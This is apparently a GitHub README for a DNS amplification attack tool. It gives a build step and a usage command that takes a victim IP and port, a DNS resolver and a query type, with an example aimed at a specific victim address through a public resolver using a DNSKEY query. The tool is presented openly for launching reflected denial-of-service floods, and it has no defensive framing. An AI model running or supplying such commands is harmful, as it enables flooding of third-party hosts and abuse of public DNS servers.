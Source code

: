 # DNS Amplification Attack

An implementation about how to send dns query and dns attack

## Installation

```bash
make
```

## Usage

```bash
sudo ./attack <Victim IP> <Victim PORT> <DNS IP> <DNS Query> <DNS Query Type>
sudo ./attack 192.168.42.145 77 37.235.1.174 . 48
```
